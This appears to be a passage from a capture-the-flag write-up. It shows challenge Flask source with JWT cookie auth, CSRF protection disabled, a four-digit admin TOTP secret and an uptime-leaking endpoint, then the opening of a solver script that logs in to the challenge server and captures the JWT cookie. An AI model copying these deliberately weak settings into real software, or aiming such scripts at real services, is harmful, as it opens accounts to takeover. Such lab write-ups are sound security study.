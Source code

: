 ```python
app.config['JWT_TOKEN_LOCATION'] = ['cookies']
app.config['JWT_COOKIE_CSRF_PROTECT'] = False 

db = SQLAlchemy(app)
jwt = JWTManager(app)

FLAG = os.getenv("FLAG", "flag{this_is_a_fake_flag}")

class User(db.Model):
	id = db.Column(db.Integer, primary_key=True)
	username = db.Column(db.String(80), unique=True, nullable=False)
	password = db.Column(db.String(80), nullable=False)
	avatar = db.Column(db.String(80), nullable=True)
	role = db.Column(db.Integer, nullable=False) # 0 = student, 1 = teacher, 2 = admin
	totp_secret = db.Column(db.Integer, nullable=True) # Only for admin users / 4 digits
 
@app.route("/status")
def status():
	return jsonify(status="OK", uptime=time.time() - up)
```









We got the server uptime&#x20;

<figure><img src="../../../../../.gitbook/assets/image (94).png" alt=""><figcaption></figcaption></figure>



```python
import random
import string
import time
import jwt
import requests


# login with the new user
login_url = "http://51.77.140.155:9100/login"
jwt_cookie = None  # Define outside loop        
login_data = {
    "username": "sbeve",
    "password": "sbeve",
    "loginstep1": ""
}

try:
    print("Logging in with new user...")
    response = requests.post(login_url, data=login_data, allow_redirects=False, timeout=5)
    if response.status_code == 302:
        print("Login successful!")
        cookies = response.cookies
        jwt_cookie = cookies.get("access_token_cookie")
        print(f"JWT Cookie: {jwt_cookie}")
```